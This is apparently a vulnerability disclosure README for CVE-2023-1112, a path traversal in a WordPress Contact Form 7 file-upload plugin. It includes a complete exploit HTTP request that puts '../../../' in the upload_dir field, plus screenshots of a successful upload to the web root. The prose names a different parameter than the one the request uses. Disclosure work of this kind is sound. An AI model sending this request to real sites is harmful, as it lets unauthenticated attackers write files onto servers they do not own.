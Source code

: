 # CVE-2023-1112 - Drag and Drop Multiple File Uploader PRO - Contact Form 7 v5.0.6.1 Path Traversal

# Info
Path Traversal in Drag and Drop Multiple File Uploader PRO - Contact Form 7 version 5.0.6.1 allows unauthenticated remote attacker to upload files anywhere writable on the remote server (CVE-2023-1112).

To exploit this vulnerability, the attacker needs to upload a file using the plugin's form. On this post request there needs to be the parameter `upload_name`, which value is the name of the folder to which the file will be uploaded. The attacker can put anything he wants, such as `../`, `../../../`, `foldername` (it will create the folder "foldername" on the upload directory), etc.

# Example

```
POST /wp-admin/admin-ajax.php HTTP/2
Host: example.org
Content-Length: 756
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryIzvIrbHjHpxzepPi
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)

------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="size_limit"

2e+9
------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="action"

dnd_codedropz_upload
------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="upload_dir"

../../../
------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="post_id"

1868
------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="security"

0a4dca2b89
------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="form_id"

9210
------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="upload_name"

foto
------WebKitFormBoundaryIzvIrbHjHpxzepPi
Content-Disposition: form-data; name="upload-file"; filename="pngout.png"
Content-Type: image/png

// image contents
------WebKitFormBoundaryIzvIrbHjHpxzepPi--

```
# Screenshots

### Normal request
![image](https://user-images.githubusercontent.com/3837916/216743824-2a11a7e6-d954-4a1d-ac98-7ddc0d996dcd.png)

### Malicious request
![image](https://user-images.githubusercontent.com/3837916/216743964-378a88d4-ed53-481b-a748-8c09c9868070.png)

### Malicious request successully uploaded the file to the webserver root
![image](https://user-images.githubusercontent.com/3837916/216744024-50997229-58d5-4e76-9e74-aa4c9fc27a00.png)
